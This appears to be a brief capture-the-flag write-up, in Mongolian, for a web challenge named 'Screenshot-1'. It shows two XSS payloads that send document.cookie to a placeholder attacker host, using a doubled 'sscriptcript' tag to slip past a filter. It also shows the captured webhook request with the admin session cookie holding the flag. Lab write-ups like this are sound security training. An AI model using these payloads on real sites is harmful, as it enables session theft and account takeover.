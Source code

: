 ## Screenshot-1

http://ip/1337:/feed.php
XSS өртөмтгий байх амархан шалгаж болно. 

```
<sscriptcript> new Image().src="http://<ATTACKERIP>:<port>/?"+document.cookie; </sscriptcript>
```

эсвэл
```
<sscriptcript>document.write('<img src="http://ATTACKERIP/?'+document.cookie+'" />')</sscriptcript>
```

ирсэн хүсэлтийг шалгавал


request: https://webhook.site/ef1e3938-3e7a-49e6-bac0-09cb98fbf017?c=PHPSESSID%3DHZ%7Bye%40h_admin_cook1e_and_fl%40g_0f_ScreenShot_1%7D
parameter:   	PHPSESSID=HZ{ye@h_admin_cook1e_and_fl@g_0f_ScreenShot_1}

Headers
connection 	close
host 	webhook.site
accept-language 	en,*
accept-encoding 	gzip, deflate
accept 	*/*
user-agent 	Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
referer 	http://screen/god-wisper.php
content-length 	
content-type 	



## Screenshot-2
